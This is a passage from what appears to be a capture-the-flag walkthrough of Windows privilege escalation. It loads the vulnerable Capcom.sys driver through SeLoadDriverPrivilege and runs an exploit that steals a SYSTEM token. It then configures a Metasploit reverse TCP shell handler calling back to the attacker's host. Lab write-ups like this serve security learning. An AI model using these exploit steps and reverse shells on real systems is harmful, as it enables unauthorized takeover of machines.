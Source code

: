 ```text
*Evil-WinRM* PS C:\temp> ./EOPLOADDRIVER.exe System\CurrentControlSet\printer C:\test\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\printer
NTSTATUS: c000010e, WinError: 0

*Evil-WinRM* PS C:\test> ./ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000080
[*] Shellcode was placed at 0000020616710008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

I realized after compiling my exploits that I had accidentally written `C:\temp` in one file, and `C:\test` in the other. Luckily my user had permission to create these folders on the machine so it didn't turn out to be too much of an issue.  Next, I ran `EOPLOADDRIVER.exe` to create the registry key pointing to the malicious `capcom.sys` driver, then ran `ExploitCapcom.exe` to exploit this malicious driver to grant me a System shell.

### Root.txt

After getting a System shell over netcat I once again uploaded my `print.exe` meterpreter reverse shell, and created a handler to catch it.  For some reason meterpreter failed to load despite the handler getting a call back, so I recompiled my exploit to use the standard Windows TCP reverse shell `windows/x64/shell_reverse_tcp`instead.  

``text
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.74      yes       The listen address (an interface may be specified)
   LPORT     55541            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > exploit
